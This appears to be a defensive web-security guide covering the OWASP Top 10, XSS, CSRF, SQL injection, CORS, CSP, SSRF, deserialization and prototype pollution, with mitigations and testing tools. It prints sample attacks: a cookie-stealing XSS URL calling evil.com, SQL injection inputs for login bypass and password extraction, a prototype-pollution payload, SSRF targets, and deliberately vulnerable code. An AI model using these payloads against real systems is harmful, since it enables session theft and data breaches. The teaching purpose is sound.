


## OWASP Top 10 (2021)

The OWASP Top 10 is the de facto standard for web application security awareness. The 2021 edition
reflects the shift toward cloud-native architectures and API-driven applications.

| #   | Category                                   | Root Cause                                            |
| --- | ------------------------------------------ | ----------------------------------------------------- |
| A01 | Broken Access Control                      | Missing authorization checks, IDOR                    |
| A02 | Cryptographic Failures                     | Weak or missing encryption, exposed sensitive data    |
| A03 | Injection                                  | Unsanitized input in queries, commands, templates     |
| A04 | Insecure Design                            | Missing threat modeling, abuse case analysis          |
| A05 | Security Misconfiguration                  | Default configs, unnecessary features, verbose errors |
| A06 | Vulnerable and Outdated Components         | Unaudited dependencies, known CVEs                    |
| A07 | Identification and Authentication Failures | Weak passwords, broken session management             |
| A08 | Software and Data Integrity Failures       | Insecure deserialization, unsigned updates            |
| A09 | Security Logging and Monitoring Failures   | Insufficient logging, no alerting                     |
| A10 | Server-Side Request Forgery (SSRF)         | Server coerced into making unauthorized requests      |

## Cross-Site Scripting (XSS)

XSS occurs when an application includes untrusted data in a web page without proper validation or
escaping, allowing an attacker to execute scripts in the victim's browser.

### Types of XSS

| Type      | Storage Location            | Execution Context            | Difficulty |
| --------- | --------------------------- | ---------------------------- | ---------- |
| Reflected | URL parameters, form inputs | Response HTML                | Medium     |
| Stored    | Database, user content      | When content is rendered     | High       |
| DOM-based | Client-side JavaScript      | Client-side DOM manipulation | Medium     |

### Reflected XSS

The malicious payload is included in the immediate HTTP response. The attacker crafts a URL
containing the payload and tricks the victim into visiting it.

```
https://example.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script>
```

If the server reflects the `q` parameter directly into the HTML without encoding, the script
executes in the victim's browser.

### Stored XSS

The payload is persisted in the application (database, comment, user profile) and executed every
time any user views the affected content.

```javascript
// Vulnerable: storing and rendering user comments without sanitization
const comment = req.body.comment;
db.query('INSERT INTO comments (text) VALUES (?)', [comment]);

// Rendering (vulnerable):
// <div>${comment}</div>
```

Stored XSS is more dangerous than reflected XSS because it affects all users who view the
compromised content, not just the user who clicks a crafted link.

### DOM-based XSS

The vulnerability exists entirely in client-side JavaScript. The payload is manipulated in the DOM
without being sent to the server.

```javascript
// Vulnerable: reading from location.hash and inserting into DOM
const userInput = document.location.hash.substring(1);
document.getElementById('output').innerHTML = userInput;
```

### XSS Prevention

**Primary defense: Output encoding.** Encode data based on the context where it appears:

| Context        | Encoding Required    | Example                                 |
| -------------- | -------------------- | --------------------------------------- |
| HTML body      | HTML entity encoding | `&lt;script&gt;` → `&lt;script&gt;`     |
| HTML attribute | Attribute encoding   | `" onclick="` → `&quot; onclick=&quot;` |
| JavaScript     | JavaScript encoding  | `</script>` → `\x3c/script\x3e`         |
| URL            | URL encoding         | `javascript:` → `javascript%3A`         |
| CSS            | CSS encoding         | `expression()` → `\65xpression()`       |

```javascript
// Using a templating engine with auto-escaping (safe)
// React/JSX auto-escapes by default
function UserProfile({ username }) {
  return <div>Hello, {username}</div>; // username is escaped
}

// Using DOM APIs safely
document.getElementById('output').textContent = userInput; // safe, no HTML parsing
// vs
document.getElementById('output').innerHTML = userInput; // UNSAFE
```

**Content Security Policy (CSP)** is a secondary defense that mitigates the impact of XSS by
restricting which scripts can execute.

## Cross-Site Request Forgery (CSRF)

CSRF tricks an authenticated user into executing an unwanted action on a web application where they
are already authenticated. The attack exploits the browser's automatic inclusion of credentials
(cookies) with requests.

### CSRF Attack Flow



### CSRF Prevention

| Defense                    | Mechanism                                            | Effectiveness       |
| -------------------------- | ---------------------------------------------------- | ------------------- |
| SameSite cookie attribute  | Browser does not send cookies on cross-site requests | Strong (Lax/Strict) |
| CSRF token                 | Hidden form field validated on submission            | Strong              |
| Custom request header      | JavaScript sets header, cross-origin cannot          | Strong (API-only)   |
| Requiring user interaction | Re-authentication for sensitive actions              | Strong              |

**SameSite cookies** are the primary defense for modern applications:

```http
Set-Cookie: session_id=abc123; SameSite=Strict; Secure; HttpOnly
```

**CSRF tokens** for legacy applications:

```html
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6" />
  <input type="text" name="amount" />
  <button type="submit">Transfer</button>
</form>
```

The server generates a cryptographically random token per session (or per request), includes it in
forms, and validates it on submission. The token must be tied to the user's session.

**Custom headers** for API endpoints:

```javascript
// Fetch API includes custom headers — cross-origin requests require CORS preflight
fetch('https://api.example.com/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRF-Token': 'a1b2c3d4e5f6',
  },
  credentials: 'include',
});
```

:::info

If your API uses `Authorization: Bearer` headers (not cookies), it is inherently protected from CSRF
because the browser does not automatically attach custom headers to cross-origin requests.

:::

## SQL Injection

SQL injection occurs when user input is concatenated into SQL queries without parameterization,
allowing an attacker to manipulate the query's logic.

### Types of SQL Injection

**Classic (in-band)**:

```sql
-- Input: ' OR '1'='1' --
SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = '...'
-- Returns all users, bypasses authentication
```

**Union-based**:

```sql
-- Input: ' UNION SELECT username, password FROM users --
SELECT name, description FROM products WHERE id = '' UNION SELECT username, password FROM users --'
-- Exposes usernames and passwords from users table
```

**Blind (boolean-based)**:

```sql
-- Input: ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
-- Attacker extracts password one character at a time based on response differences
```

**Blind (time-based)**:

```sql
-- Input: '; IF (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' WAITFOR DELAY '0:0:5' --
-- Attacker extracts password based on response timing
```

### Prevention

**Primary defense: Parameterized queries (prepared statements).**

```python
# VULNERABLE — string concatenation
cursor.execute(f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'")

# SAFE — parameterized query
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))

# SAFE — ORM
user = User.query.filter_by(username=username, password_hash=hash).first()
```

| Language/Framework  | Safe Method                                                 |
| ------------------- | ----------------------------------------------------------- |
| Python (sqlite3)    | `cursor.execute("SELECT * FROM users WHERE id = ?", (id,))` |
| Python (SQLAlchemy) | `session.query(User).filter(User.id == id)`                 |
| Java (JDBC)         | `PreparedStatement` with `?` placeholders                   |
| Node.js (pg)        | `client.query("SELECT * FROM users WHERE id = $1", [id])`   |
| Go (database/sql)   | `db.Query("SELECT * FROM users WHERE id = ?", id)`          |
| PHP (PDO)           | `$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?")` |

**Additional defenses:**

- **Least privilege**: Application database user should not have `DROP`, `ALTER`, or `GRANT`
  permissions
- **Allowlist input validation**: For known-format inputs (integers, UUIDs), validate format before
  querying
- **WAF**: Web Application Firewall can block common injection patterns (but is not a substitute for
  parameterized queries)

## Cross-Origin Resource Sharing (CORS)

CORS is a browser security mechanism that controls which origins can access resources on a different
origin. Without CORS, browsers enforce the Same-Origin Policy (SOP), which prevents web pages from
making requests to a different domain, protocol, or port.

### How CORS Works



### CORS Headers

| Header                             | Purpose                                       |
| ---------------------------------- | --------------------------------------------- |
| `Access-Control-Allow-Origin`      | Which origins can access the resource         |
| `Access-Control-Allow-Methods`     | Which HTTP methods are allowed                |
| `Access-Control-Allow-Headers`     | Which request headers are allowed             |
| `Access-Control-Allow-Credentials` | Whether cookies/auth headers can be sent      |
| `Access-Control-Max-Age`           | How long the preflight result can be cached   |
| `Access-Control-Expose-Headers`    | Which response headers the browser can expose |

### CORS Misconfigurations

| Misconfiguration                                  | Risk                                            |
| ------------------------------------------------- | ----------------------------------------------- |
| `Access-Control-Allow-Origin: *` with credentials | Any site can make authenticated requests        |
| Reflecting `Origin` header without validation     | Any origin is allowed                           |
| `null` origin allowed                             | Sandboxed iframes and redirects can bypass CORS |

```javascript
// VULNERABLE — reflecting origin without validation
const origin = req.headers.origin;
res.setHeader('Access-Control-Allow-Origin', origin);
res.setHeader('Access-Control-Allow-Credentials', 'true');

// SAFE — allowlist specific origins
const ALLOWED_ORIGINS = ['https://app.example.com', 'https://admin.example.com'];
const origin = req.headers.origin;
if (ALLOWED_ORIGINS.includes(origin)) {
  res.setHeader('Access-Control-Allow-Origin', origin);
  res.setHeader('Access-Control-Allow-Credentials', 'true');
}
```

## Content Security Policy (CSP)

CSP is an HTTP response header that restricts which resources the browser can load for a given page.
It is a defense-in-depth mechanism against XSS and data injection.

### CSP Directives

| Directive                   | Purpose                              | Example                            |
| --------------------------- | ------------------------------------ | ---------------------------------- |
| `default-src`               | Fallback for other resource types    | `'self'`                           |
| `script-src`                | Allowed JavaScript sources           | `'self' 'nonce-abc123'`            |
| `style-src`                 | Allowed CSS sources                  | `'self' 'unsafe-inline'`           |
| `img-src`                   | Allowed image sources                | `'self' data: https:`              |
| `font-src`                  | Allowed font sources                 | `'self' https://fonts.gstatic.com` |
| `connect-src`               | Allowed fetch/XHR/WebSocket targets  | `'self' https://api.example.com`   |
| `frame-src`                 | Allowed iframe sources               | `'none'`                           |
| `object-src`                | Allowed plugin (Flash, etc.) sources | `'none'`                           |
| `base-uri`                  | Allowed base URL for relative URLs   | `'self'`                           |
| `form-action`               | Allowed form submission targets      | `'self'`                           |
| `frame-ancestors`           | Who can embed this page in a frame   | `'none'`                           |
| `upgrade-insecure-requests` | Automatically upgrade HTTP to HTTPS  | N/A                                |

### Example CSP Policy

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-rAnd0m123' https://cdn.example.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
  upgrade-insecure-requests;
  report-uri /csp-report;
```

### Nonce-based CSP

A nonce (number used once) is a random value generated per request that allows specific inline
scripts:

```javascript
// Server generates nonce per request
const nonce = crypto.randomBytes(16).toString('base64');

// CSP header includes the nonce
// Content-Security-Policy: script-src 'nonce-abc123' 'self'

// HTML includes inline script with matching nonce
// <script nonce="abc123">
//   // This script is allowed
// </script>
// <script>
//   // This script is BLOCKED (no nonce)
// </script>
```

:::warning

Never use `'unsafe-inline'` in `script-src` if you can avoid it — it completely defeats XSS
protection. Use nonces or hashes for inline scripts, and move JavaScript to external files.
`'unsafe-eval'` is equally dangerous and should also be avoided.

:::

## Clickjacking

Clickjacking tricks a user into clicking on a hidden element by loading the target site in a
transparent iframe and positioning a visible element over it.

### Prevention

**X-Frame-Options** header (legacy):

```http
X-Frame-Options: DENY
X-Frame-Options: SAMEORIGIN
```

**frame-ancestors** CSP directive (preferred):

```http
Content-Security-Policy: frame-ancestors 'none';
Content-Security-Policy: frame-ancestors 'self';
```

## Open Redirect

Open redirect occurs when an application redirects to a user-supplied URL without validation.
Attackers exploit this to phishing attacks — the redirect URL appears legitimate but sends the
victim to a malicious site.

```javascript
// VULNERABLE — redirects to any URL
res.redirect(req.query.returnTo);

// SAFE — validate against allowlist or ensure relative path
const ALLOWED_PATHS = ['/dashboard', '/profile', '/settings'];
const returnTo = req.query.returnTo;
if (returnTo && returnTo.startsWith('/') && !returnTo.startsWith('//')) {
  res.redirect(returnTo);
} else {
  res.redirect('/dashboard');
}
```

## Insecure Deserialization

Insecure deserialization occurs when untrusted data is deserialized without validation, allowing an
attacker to manipulate application logic or execute arbitrary code.

### Affected Formats

| Format             | Languages             | Risk Level                |
| ------------------ | --------------------- | ------------------------- |
| Java Serialization | Java                  | Critical (RCE)            |
| Pickle             | Python                | Critical (RCE)            |
| YAML (unsafe load) | Python, Ruby, Node.js | Critical (RCE)            |
| JSON               | Most languages        | Low (typically data-only) |
| XML                | Java, .NET, Node.js   | High (XXE)                |

```python
# VULNERABLE — deserializing untrusted pickle data
import pickle

data = request.get_data()
obj = pickle.loads(data)  # Attacker can execute arbitrary code

# SAFE — use JSON or signed/verified pickle
import json
obj = json.loads(data)  # JSON cannot execute code
```

### Prevention

- **Never deserialize untrusted data** with formats that support code execution (pickle, Java
  serialization)
- **Use safe formats**: JSON, protocol buffers, or other data-only serialization
- **If you must deserialize**: Use integrity checks (HMAC signatures), type restrictions, and
  allowlists
- **Implement type safety**: Enforce that deserialized objects match expected types

## Server-Side Request Forgery (SSRF)

SSRF occurs when an attacker coerces the server into making requests to unintended destinations.
This can expose internal services, cloud metadata endpoints, and sensitive internal APIs.

### Common SSRF Targets

| Target                    | URL Pattern                                           |
| ------------------------- | ----------------------------------------------------- |
| AWS metadata              | `http://169.254.169.254/latest/meta-data/`            |
| GCP metadata              | `http://metadata.google.internal/computeMetadata/v1/` |
| Azure metadata            | `http://169.254.169.254/metadata/instance`            |
| Internal APIs             | `http://internal-api:8080/admin`                      |
| Redis                     | `dict://127.0.0.1:6379/CONFIG SET ...`                |
| File access (via file://) | `file:///etc/passwd`                                  |

### SSRF Prevention

| Defense                        | Implementation                                                      |
| ------------------------------ | ------------------------------------------------------------------- |
| Allowlist URLs                 | Only permit requests to approved domains/IPs                        |
| Block internal/loopback ranges | Deny `127.0.0.0/8`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16` |
| Disable unnecessary schemes    | Block `file://`, `gopher://`, `dict://`                             |
| Use network segmentation       | Application server cannot reach internal services directly          |
| Cloud metadata protection      | Use IMDSv2 on AWS, require signed headers on GCP                    |

```python
from urllib.parse import urlparse
import ipaddress

def is_safe_url(url):
    parsed = urlparse(url)
    if parsed.scheme not in ("http", "https"):
        return False
    try:
        ip = ipaddress.ip_address(parsed.hostname)
        if ip.is_private or ip.is_loopback or ip.is_reserved:
            return False
    except ValueError:
        pass  # hostname, not IP — check against allowlist
    return parsed.hostname in ALLOWED_HOSTS
```

:::warning

URL parsing is tricky. Attackers bypass filters using URL encoding
(`http://%31%32%37%2e%30%2e%30%2e%31/`), DNS rebinding (resolves to internal IP on second lookup),
and redirect chains. Validate after DNS resolution, not before.

:::

## Prototype Pollution

Prototype pollution is a JavaScript vulnerability where an attacker modifies the prototype of a base
object, affecting all objects that inherit from it.

```javascript
// Vulnerable: deep merge function does not check for __proto__ or constructor.prototype
function merge(target, source) {
  for (const key in source) {
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] = target[key] || {};
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}

// Attack payload:
merge({}, JSON.parse('{"__proto__": {"isAdmin": true}}'));

// All objects now have isAdmin = true
const user = {};
console.log(user.isAdmin); // true
```

### Prevention

- Use `Object.create(null)` for objects that should not have prototypes
- Validate and sanitize JSON input — reject keys like `__proto__`, `constructor`, `prototype`
- Use safe deep merge libraries that block prototype pollution
- Freeze prototypes: `Object.freeze(Object.prototype)`

## Security Headers

Every web application should implement these security headers:

```http
# Prevent MIME type sniffing
X-Content-Type-Options: nosniff

# Enable browser XSS filter (legacy, CSP is preferred)
X-XSS-Protection: 0

# Control referrer information leakage
Referrer-Policy: strict-origin-when-cross-origin

# Control browser features (camera, microphone, geolocation)
Permissions-Policy: camera=(), microphone=(), geolocation=()

# Prevent clickjacking
X-Frame-Options: DENY

# HSTS — force HTTPS for 1 year, include subdomains
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

# Content Security Policy
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; frame-ancestors 'none'

# Cross-Origin policies
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Resource-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
```

| Header                       | Purpose                          | Browser Support |
| ---------------------------- | -------------------------------- | --------------- |
| `X-Content-Type-Options`     | Prevents MIME type sniffing      | All             |
| `X-Frame-Options`            | Prevents clickjacking            | All             |
| `Strict-Transport-Security`  | Forces HTTPS connections         | All             |
| `Content-Security-Policy`    | Controls resource loading        | All             |
| `Referrer-Policy`            | Controls referrer header leakage | All             |
| `Permissions-Policy`         | Controls browser feature access  | Modern          |
| `Cross-Origin-Opener-Policy` | Isolates browsing context group  | Modern          |

## Input Validation vs Output Encoding

This is one of the most commonly confused concepts in web security.

**Input validation** ensures data meets expected format requirements before processing. It is about
**data quality**, not security. It happens at the boundary where data enters your system.

**Output encoding** transforms data for safe inclusion in a specific context (HTML, JavaScript, URL,
CSS). It is about **safe rendering**. It happens at the boundary where data leaves your system.

```python
# Input validation (data quality)
import re

def validate_email(email):
    """Check that the email looks like an email."""
    pattern = r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'
    return bool(re.match(pattern, email))

# Output encoding (safe rendering)
import html

def render_comment(comment_text):
    """Encode for safe HTML rendering."""
    return f"<div class='comment'>{html.escape(comment_text)}</div>"
```

| Concern                | Input Validation         | Output Encoding           |
| ---------------------- | ------------------------ | ------------------------- |
| Purpose                | Data quality             | Safe rendering            |
| When                   | On data entry            | On data output            |
| What it checks         | Format, length, type     | Context-specific escaping |
| Prevents               | Bad data, some injection | XSS in all contexts       |
| Can replace the other? | No                       | No                        |

Both are necessary. Input validation alone does not prevent XSS (valid input can contain HTML).
Output encoding alone does not prevent all injection (SQL injection is not an output encoding
problem — it requires parameterized queries).

## Dependency Vulnerabilities

### Monitoring Dependencies

```bash
# npm
npm audit
npm audit fix

# Python
pip audit
safety check --full-report

# Go
govulncheck ./...

# Rust
cargo audit

# Java (Maven)
mvn org.owasp:dependency-check-maven:check
```

### Dependency Management Best Practices

1. **Pin dependencies**: Use lockfiles (`package-lock.json`, `poetry.lock`, `go.sum`, `Cargo.lock`)
   to ensure reproducible builds
2. **Automate scanning**: Integrate vulnerability scanning into CI/CD pipeline
3. **Minimize dependencies**: Fewer dependencies = smaller attack surface
4. **Review new dependencies**: Check maintenance activity, known vulnerabilities, license
   compatibility
5. **Update regularly**: Establish a regular cadence for dependency updates
6. **Use SLSA framework**: Supply-chain Levels for Software Artifacts provides a checklist for
   supply chain integrity

### Software Composition Analysis (SCA) Tools

| Tool       | Language(s) | Integration     |
| ---------- | ----------- | --------------- |
| Snyk       | Most        | CI/CD, IDE, CLI |
| Dependabot | Most        | GitHub-native   |
| Renovate   | Most        | CI/CD           |
| Trivy      | Most        | CLI, CI/CD      |
| Grype      | Most        | CLI             |

## Subdomain Takeover

Subdomain takeover occurs when a DNS record points to a resource that has been deprovisioned or
deleted. An attacker can claim the resource and serve content on the subdomain.

### Common Vulnerable Services

| Service            | Detection Indicator                       |
| ------------------ | ----------------------------------------- |
| GitHub Pages       | CNAME to `username.github.io`             |
| AWS S3             | CNAME to `bucket.s3.amazonaws.com`        |
| Heroku             | CNAME to `app.herokuapp.com`              |
| Azure Blob Storage | CNAME to `*.blob.core.windows.net`        |
| CloudFront         | CNAME to `*.cloudfront.net`               |
| Vercel/Netlify     | CNAME to `*.vercel.app` / `*.netlify.app` |

### Prevention

- **Monitor DNS records**: Audit DNS regularly for dangling CNAMEs
- **Automate cleanup**: When deprovisioning resources, remove corresponding DNS records
- **Use TXT records**: Add verification TXT records that prove subdomain ownership
- **Domain validation**: Implement certificate-based domain validation that checks both DNS and HTTP

## Common Pitfalls

### Pitfall 1: Relying on Client-Side Validation Only

Client-side validation improves UX but provides zero security. An attacker can modify or bypass any
client-side check. Always validate on the server, regardless of what the client does.

### Pitfall 2: Ignoring Security Headers

Many web applications run without security headers. Adding `X-Content-Type-Options: nosniff`,
`X-Frame-Options: DENY`, `Strict-Transport-Security`, and a reasonable CSP takes minutes and
provides meaningful protection against common attacks.

### Pitfall 3: Using string concatenation for SQL

In 2026, SQL injection remains one of the most common vulnerabilities. Every modern database driver
supports parameterized queries. There is no excuse for string concatenation in SQL.

### Pitfall 4: Wildcard CORS with Credentials

`Access-Control-Allow-Origin: *` combined with `Access-Control-Allow-Credentials: true` is
explicitly disallowed by the CORS spec (browsers reject it). But reflecting the origin header
without validation achieves the same effect and is a common misconfiguration.

### Pitfall 5: Trusting User Input in Redirects

Any redirect that incorporates user input without strict validation is an open redirect
vulnerability. Validate that redirect targets are relative paths or match an explicit allowlist.

### Pitfall 6: Debug Information in Production

Stack traces, framework versions, database errors, and server configuration details exposed in
production responses give attackers significant intelligence. Always use error pages that hide
internal details in production.

### Pitfall 7: Not Testing for Security

Automated security testing should be part of every CI/CD pipeline. DAST (Dynamic Application
Security Testing) tools like OWASP ZAP, SAST (Static Application Security Testing) tools like
Semgrep, and dependency scanners like Snyk should run on every pull request and deployment.

### Pitfall 8: Mixing Content Types

Serving user-uploaded files from the same origin as the application creates a risk. An attacker can
upload an HTML or SVG file that executes JavaScript in the context of the application's origin,
bypassing Same-Origin Policy. Serve user uploads from a separate origin (different domain or
subdomain with sandboxed CSP).

### Pitfall 9: CORS Preflight Cache Poisoning

If the server reflects user-controlled input into the `Access-Control-Allow-Origin` header and the
response includes `Access-Control-Max-Age`, an attacker can poison the preflight cache. After
poisoning, the browser will skip preflight requests for the attacker's origin, allowing cross-origin
requests that would normally be blocked. Never set a long `Max-Age` on dynamically computed CORS
responses.

### Pitfall 10: Trusting HTTP Methods

Do not assume that `POST` requests are safe and `GET` requests are not. An attacker can send any
HTTP method to any endpoint. The `TRACE` method should be disabled (it enables XST — Cross-Site
Tracing). The `DELETE` and `PUT` methods must require authentication and authorization just like
`POST`.

## Security Testing Methodology

### Testing Types

| Type                                     | Abbreviation | When                | What It Finds                                       |
| ---------------------------------------- | ------------ | ------------------- | --------------------------------------------------- |
| Static Application Security Testing      | SAST         | During development  | Code-level vulnerabilities (SQLi, XSS patterns)     |
| Dynamic Application Security Testing     | DAST         | Running application | Exploitable vulnerabilities from outside            |
| Interactive Application Security Testing | IAST         | During runtime      | Vulnerabilities with context (line number, request) |
| Software Composition Analysis            | SCA          | During build        | Vulnerable dependencies (CVEs)                      |
| Penetration Testing                      | Pentest      | Periodically        | Business-logic flaws, chained vulnerabilities       |

### SAST in CI/CD

```yaml
# GitHub Actions: Semgrep SAST scan
name: Security Scan
on: [pull_request]
jobs:
  semgrep:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: semgrep/semgrep-action@v1
        with:
          config: >-
            p/owasp-top-ten p/jwt p/xss p/sql-injection
```

### DAST with OWASP ZAP

```bash
# Run OWASP ZAP baseline scan against a running application
docker run -t owasp/zap2docker-stable zap-baseline.py \
  -t https://staging.example.com \
  -r zap_report.html \
  --config addrs=staging.example.com

# Run with authentication
docker run -t owasp/zap2docker-stable zap-full-scan.py \
  -t https://staging.example.com \
  -a "username=scanner&password=token" \
  -r zap_full_report.html
```

### HTTP Security Headers Scoring

```bash
# Test security headers (external scanner)
# https://securityheaders.com/
# https://observatory.mozilla.org/

# Or use curl to check specific headers
curl -sI https://example.com | grep -iE \
  "strict-transport|content-security|x-frame|x-content-type|referrer-policy|permissions-policy"
```

:::info

**Reference Standards**: OWASP Top 10 (2021), OWASP Testing Guide v4, OWASP Cheat Sheet Series, CSP
Level 3 (W3C Recommendation), CORS (W3C Recommendation), RFC 6265 (HTTP Cookies), RFC 7231 (HTTP/1.1
Semantics), RFC 9110 (HTTP Semantics).

:::
